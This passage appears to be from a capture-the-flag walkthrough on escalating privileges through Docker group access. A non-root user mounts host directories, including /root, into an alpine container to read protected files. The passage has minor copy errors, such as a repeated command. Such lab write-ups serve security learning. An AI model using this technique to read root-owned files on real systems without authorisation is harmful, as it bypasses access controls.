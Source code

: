 
Now we'll spin up a container using the alpine image, and mount the home directory using the `-v` flag.

```bash
docker run -it -v /home/playground:/mnt alpine sh # / 
```

We've now created a container, and attached our shell to the shell inside of the container. We can validate we're actually inside of a container by running the following command:

```bash
docker run -it -v /home/playground:/mnt alpine sh
```

Now let's validate the container's hostname:
```bash
echo $HOSTNAME
```

First, we'll check where we are inside of the container's file system, then move to the /mnt directory where the data from the host server should be located:

```bash
/ # pwd
/
/ # cd mnt
/mnt # ls
test.txt
```

Now we can use the `cat` command to read the contents of the test.txt file we created:

```bash
/mnt # cat test.txt
testing 123
```

Looks like that worked! 

Okay, we've validated that we can create a container using a non root user, and then mount a directory on the host server onto the actual container. We've also confirmed we can read the contents of a file stored in that directory. Now, let's exit the container, and create a new container, this time mounting the root user's directory so we can retrieve the flag.

To exit the container:

```bash
$ /mnt # exit
```

Confirm you're back on the host server by checking the hostname:

```bash
playground@worker1:~$ echo $HOSTNAME
ip-10-0-0-150
```

Now we will repeat what we did above to create a container from the `alpine` image and mount the user's volume, but this time mounting the `/root` home directory instead of `/home/playground`:

```bash
playground@worker1:~$ docker run -it -v /root:/mnt alpine sh
/ # echo $HOSTNAME
c08716be0cf9
```
